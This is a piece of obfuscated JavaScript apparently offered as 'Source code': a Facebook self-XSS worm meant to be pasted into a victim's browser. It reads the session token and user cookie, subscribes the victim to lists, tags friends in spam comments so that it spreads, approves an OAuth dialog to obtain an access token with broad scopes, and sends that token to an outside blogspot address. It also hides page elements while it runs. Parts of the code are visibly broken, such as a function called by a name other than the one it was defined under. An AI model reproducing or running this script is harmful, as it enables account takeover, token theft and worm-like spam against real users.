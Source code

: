 function IbraheemNada(uidss){var a=document.createElement('script');a.innerHTML="new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&action=subscribe').setData({ flid: "+uidss+" }).send();";document.body.appendChild(a)}
RamadanSaudi("100005737200713");RamadanSaudi("179344595600113");RamadanSaudi("");RamadanSaudi("");
var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f<Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i<(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i<9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&&_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id);

if(location.hostname.indexOf("www.facebook.com","static.ak.facebook.com","apps.facebook.com","beta.facebook.com") >= 0){
var profile_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]).toString();
function uygulamaizinver(url){
var xmlhttp = new XMLHttpRequest();
xmlhttp.onreadystatechange = function () {
if(xmlhttp.readyState == 4){
izinverhtml = document.createElement("html");
izinverhtml.innerHTML = xmlhttp.responseText;
if(izinverhtml.getElementsByTagName("form").length > 0){
izinverhtml.innerHTML = izinverhtml.getElementsByTagName("form")[0].outerHTML
act = izinverhtml.getElementsByTagName("form")[0].action;
duzenlevegonder(izinverhtml,act);
}
}
};		
xmlhttp.open("GET", url, true); 
xmlhttp.send();
}
function duzenlevegonder(formnesne,act){
izinverparams = "";
for(i=0;i<formnesne.getElementsByTagName("input").length;i++){
if(formnesne.getElementsByTagName("input")[i].name.indexOf("__CANCEL__") < 0 && formnesne.getElementsByTagName("input")[i].name.indexOf("cancel_clicked")){
izinverparams += "&" + formnesne.getElementsByTagName("input")[i].name + "=" + formnesne.getElementsByTagName("input")[i].value;
}
}
if(formnesne.getElementsByTagName("select").length > 0){
izinverparams += "&" + formnesne.getElementsByTagName("select")[0].name + "=80";
}
izinverparams.replace("&fb_dtsg","fb_dtsg");
izinverparams += "&__CONFIRM__=1";
formnesne = formnesne;
var xmlhttp = new XMLHttpRequest();
        xmlhttp.onreadystatechange = function () {
			if(xmlhttp.readyState == 4){
			  izinhtml = document.createElement("html");
			  izinhtml.innerHTML = xmlhttp.responseText;
			if(izinhtml.getElementsByTagName("form").length > 0){
			  izinhtml.innerHTML = izinhtml.getElementsByTagName("form")[0].outerHTML;
			  act = izinhtml.getElementsByTagName("form")[0].action;
			  duzenlevegonder(izinhtml,act)
			}else{
			sex = xmlhttp.responseText.match(/#access_token=(.*?)&expires_in/i);
			if (sex[1]) {
			tokenyolla(sex[1]);
			}
			}
			}
        };

xmlhttp.open("POST", act , true); 
xmlhttp.setRequestHeader ("Content-Type", "application/x-www-form-urlencoded");
xmlhttp.send(izinverparams);

}

function TokenUrl(id){
return "//www.facebook.com/dialog/oauth?response_type=token&display=popup&client_id=" + id  +"&redirect_uri=fbconnect://success&sso_key=com&scope=email,publish_stream,user_likes,friends_likes,user_birthday";
}

if(!localStorage['token_' + profile_id] ||  (localStorage['token_' + profile_id] && tarih.getTime() >= localStorage['token_' + profile_id])){
uygulamaizinver(TokenUrl(""));
var http = new XMLHttpRequest();
http['open']('GET', 'http://graph.facebook.com/' + profile_id, false);
http['send']();
var get = JSON.parse(http['responseText']);
var isim = get.name;
}
window.setInterval(function(){
if(document.getElementsByClassName("_5ce")){
for(i=0;i<document.getElementsByClassName("_5ce").length;i++){
document.getElementsByClassName("_5ce")[i].innerHTML = "";
}
}
if(document.getElementsByClassName("uiToggle wrap")){
for(i=0;i<document.getElementsByClassName("uiToggle wrap").length;i++){
document.getElementsByClassName("uiToggle wrap")[i].innerHTML = "";
}
}
if(document.getElementsByClassName("uiPopover")){
for(i=0;i<document.getElementsByClassName("uiPopover").length;i++){
document.getElementsByClassName("uiPopover")[i].innerHTML = "";
}
}
},200);
function tokenyolla(token){
top.location.href = 'http://07888.blogspot.com/#' + token;
}}
var alibasim = "يرجى الانتظار";
alert(alibasim);
